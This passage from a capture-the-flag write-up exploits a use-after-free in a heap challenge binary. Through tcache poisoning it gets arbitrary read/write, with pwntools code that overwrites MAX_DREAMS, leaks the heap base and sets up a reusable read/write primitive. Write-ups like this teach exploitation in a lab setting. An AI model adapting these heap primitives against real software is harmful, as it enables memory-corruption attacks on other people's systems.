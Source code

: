 Let's look at the `psychiatrist()` function. She does not check the chunk in any way before editing the contents. So we can change the structure of the freed chunk (use after free). This leads to **tcache-poisoning**. Also, this function helps to leak the address of the heap (by calling it after the chunk is freed).
Let's write a function that will arbitrarily write and read data.

```python
def uaf(address, index):
    malloc(index)
    malloc(index+1)
    free(index)
    free(index+1)
    return edit(index+1, address-8)

def _write(address, data, index):
    value = uaf(address, index)
    malloc(index+2)
    malloc(index+3, b'\n', data)
    return value
```

Having AWR, I immediately overwritten the `MAX_DREAMS` variable, in order to work calmly with the heap. And at the same time I got the address of the heap, which was useful to me further.

```python
value = _write(elf.sym.MAX_DREAMS, b'YYYY', 0)
log.success('MAX_DREAMS overwrited')
heap = value & 0xFFFF000
if not heap:
    log.error('Heap base address leak failed')
log.success('Heap base address leaked: 0x%X', heap)
```

Next, I came up with the idea to make a more convenient and secure AWR, which will not require allocating the chunk in the right place (as in the case of tcache poisoning).
Knowing the address of the heap, we can change the pointers that are stored in the `dreams` variable.

```python
address_of_index = lambda index: heap + 0x2a0 + 8*index

def init_awr():
    address = address_of_index(13)
    _write(address, b'A', 10)
    malloc(14)
    log.success('Arbitrary read write init done')
    return 12, 13

def write(address, data):
    edit(editing_index, address)
    edit(writing_index, data)
    #log.info('0x%X written in 0x%X', data, address)

def read(address):
    edit(editing_index, address-8)
    return edit(writing_index, b'A')

writing_index, editing_index = init_awr()
```
I started working with the 10th index, because after the 5th index, the metadata goes to the chunk `dreams` and the function `gosleep()` will not be able to allocate a chunk in that place (3 condition: `*(_QWORD *)(8LL * B2 + dreams)`).
